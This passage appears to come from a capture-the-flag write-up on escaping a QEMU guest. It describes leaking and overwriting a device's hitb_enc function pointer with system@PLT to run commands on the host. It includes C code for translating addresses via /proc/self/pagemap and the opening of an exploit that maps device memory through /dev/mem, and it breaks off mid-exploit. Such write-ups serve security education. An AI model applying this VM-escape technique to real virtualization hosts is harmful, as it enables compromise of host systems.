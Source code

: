 Thanks to the symbols we can see that the `hitb_enc` function pointer is right after the `dma_buf`, our goal is to leak that pointer and overwrite it with the address of `system@PLT` this way we can call `system` on the host with our controlled arguments from the guest.

To resolve VA to PA from user-land we can use `/proc/self/pagemap` with the following function.

{% highlight C %}
#define PAGEMAP_LENGTH sizeof( size_t )

size_t virt_to_phys( void* addr )
{
    FILE* fd = fopen( "/proc/self/pagemap", "rb" );

    size_t offset = (size_t)addr / getpagesize() * PAGEMAP_LENGTH;
    fseek( fd, offset, SEEK_SET );

    size_t page_frame_number = 0;
    fread( &page_frame_number, 1, PAGEMAP_LENGTH - 1, fd );

    page_frame_number &= 0x7FFFFFFFFFFFFF;
    // mask off the 12 most significant bits because they
    // are used for flags

    fclose( fd );

    return ( page_frame_number << 12 ) | ( (size_t)addr & 0xfff );
}
{% endhighlight %}

### Exploit

{% highlight C %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

#define PAGEMAP_LENGTH sizeof( size_t )
#define COPY_FROM_PA 1
#define COPY_TO_PA 1 | 2
#define HITB_ENC 4

unsigned int mmio_addr = 0xfea00000;
unsigned int mmio_size = 0x100000;
char* mmio = 0;

void* devmap( size_t offset )
{
    int fd = open( "/dev/mem", O_RDWR | O_SYNC );
    if ( fd == -1 ) {
        perror( "open /dev/mem" );
        return 0;
    }

    void* result = mmap( NULL, mmio_size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, mmio_addr );

    if ( !result ) {
        perror( "mmap" );
    }

    close( fd );
    return result;
}

int test( void )
{